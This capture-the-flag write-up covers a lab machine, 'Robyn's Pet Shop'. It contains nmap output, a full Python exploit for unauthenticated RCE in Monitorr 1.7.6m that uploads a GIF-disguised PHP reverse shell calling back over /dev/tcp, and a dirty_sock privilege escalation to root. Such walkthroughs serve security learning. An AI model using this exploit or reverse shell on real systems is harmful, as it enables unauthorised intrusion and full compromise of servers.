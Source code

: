 # Year of the Fox

`Install ngrok so that connect from public IP. It helps connecting from external IP.`

Run NMAP `nmap -sV -Pn -n -T1 -A 63.35.214.248 -o nmap.txt`

```
35.214.248
Nmap scan report for 63.35.214.248
Host is up (0.20s latency).
Not shown: 995 filtered ports
PORT     STATE SERVICE  VERSION
21/tcp   open  ftp      vsftpd 3.0.3
22/tcp   open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|_  2048 46:b2:81:be:e0:bc:a7:86:39:39:82:5b:bf:e5:65:58 (RSA)
80/tcp   open  http     Apache httpd 2.4.29
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Did not follow redirect to https://robyns-petshop.thm/
443/tcp  open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Robyn&#039;s Pet Shop
| ssl-cert: Subject: commonName=robyns-petshop.thm/organizationName=Robyns Petshop/stateOrProvinceName=South West/countryName=GB
| Subject Alternative Name: DNS:robyns-petshop.thm, DNS:monitorr.robyns-petshop.thm, DNS:beta.robyns-petshop.thm, DNS:dev.robyns-petshop.thm
| Not valid before: 2021-07-02T15:48:26
|_Not valid after:  2022-07-02T15:48:26
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
8000/tcp open  http-alt
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.1 400 Bad Request
|     Content-Length: 15
|_    Request
|_http-title: Under Development!
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8000-TCP:V=7.91%I=7%D=7/2%Time=60DF394A%P=x86_64-pc-linux-gnu%r(Gen
SF:ericLines,3F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Length:\x20
SF:15\r\n\r\n400\x20Bad\x20Request");
Service Info: Host: robyns-petshop.thm; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jul  2 21:36:54 2021 -- 1 IP address (1 host up) scanned in 1003.96 seconds
```
***
While exploring certificate in browser found more dns records:
- robyns-petshop.thm
- monitorr.robyns-petshop.thm
- beta.robyns-petshop.thm
- dev.robyns-petshop.thm

***

While going to monitorr.robyns-petshop.thm found that there is version 1.7.6m. Lets check in searchsploit.

`Monitorr 1.7.6m - Remote Code Execution (Unauthenticated)   | php/webapps/48980.py`

But while executing the exploit the php file was not uploading. It was detected as exploit. Changing the shell name to shell.gif.phtml worked.

I used the below code:
```
#!/usr/bin/python
# -*- coding: UTF-8 -*-

import requests
import os
import sys
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

sess = requests.Session()
sess.verify = False

if len (sys.argv) != 4:
    print ("specify params in format: python " + sys.argv[0] + " target_url lhost lport")
else:
    url = sys.argv[1] + "/assets/php/upload.php"
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/plain, */*; q=0.01", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "X-Requested-With": "XMLHttpRequest", "Content-Type": "multipart/form-data; boundary=---------------------------31046105003900160576454225745", "Origin": sys.argv[1], "Connection": "close", "Referer": sys.argv[1]}

    data = "-----------------------------31046105003900160576454225745\r\nContent-Disposition: form-data; name=\"fileToUpload\"; filename=\"she_ll1.jpg.phtml\"\r\nContent-Type: image/gif\r\n\r\nGIF89a213213123<?php shell_exec(\"/bin/bash -c 'bash -i >& /dev/tcp/"+sys.argv[2] +"/" + sys.argv[3] + " 0>&1'\");\r\n\r\n-----------------------------31046105003900160576454225745--\r\n"

    r = sess.post(url, headers=headers, data=data, cookies={"isHuman": "1"})

    print ("A shell script should be uploaded. Now we try to execute it")
    url = sys.argv[1] + "/assets/data/usrimg/she_ll.jpg.phtml"
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
    sess.get(url, headers=headers)
```

After uploading run the below command to get a terminal.
`python3 -c 'import pty;pty.spawn("/bin/bash")'`

Then run exploit_suggester.

Here we saw a exploit called dirty_sock lets run it.

then login with username: dirty_sock, password: dirty_sock.
Run command: `sudo /bin/bash` to become root.




## Problems faced
- Check if any cookie is needed.
- Check whether we need a SSL certificate is needed.
- Check whether its shell is uploading, if not try changing extension.
- Try to make shell stable.